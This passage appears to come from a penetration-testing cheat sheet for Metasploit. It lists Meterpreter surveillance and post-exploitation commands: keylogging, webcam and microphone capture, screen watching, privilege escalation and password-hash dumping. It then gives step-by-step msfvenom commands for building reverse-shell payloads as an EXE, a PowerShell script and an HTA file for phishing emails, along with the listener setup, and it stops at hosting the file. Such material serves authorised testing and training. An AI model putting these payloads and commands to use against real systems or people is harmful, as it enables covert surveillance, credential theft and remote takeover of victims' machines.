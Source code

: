 ```bash
idletime: Returns the number of seconds the remote user has been idle
keyscan_dump: Dumps the keystroke buffer
keyscan_start: Starts capturing keystrokes
keyscan_stop: Stops capturing keystrokes
screenshare: Allows you to watch the remote user's desktop in real time
screenshot: Grabs a screenshot of the interactive desktop
record_mic: Records audio from the default microphone for X seconds
webcam_chat: Starts a video chat
webcam_list: Lists webcams
webcam_snap: Takes a snapshot from the specified webcam
webcam_stream: Plays a video stream from the specified webcam
getsystem: Attempts to elevate your privilege to that of local system
hashdump: Dumps the contents of the SAM database
```

### Example of shells

#### EXE shell

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > shell.exe`

#### Using powershell

- Generate the script with `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK-MACHINE-IP LPORT=PORT -f psh -o shell.ps1`
- Serve it to the target with `python3 -m http.server port`
- Set up your listener on msfconsole `use multi/handler` `set payload windows/x64/meterpreter/reverse_tcp` set also LHOST and LPORT
- `exploit -j`
- run the exploit on the target you should have a shell
- list your sessions with `sessions`
- Interact with the desired session using `sessions -i number-of-session`

## HTA Email Phishing

### Create the payload with msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP-OF-ATTACK-MACHINE LPORT=443 -f hta-psh -o payload.hta
```

### Set up metasploit

- `msfconsole`
- `use exploit/multi/handler`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set LHOST IP-OF-ATTACK-MACHINE`
- `set LPORT 443`
- `exploit -j`

### Host the file
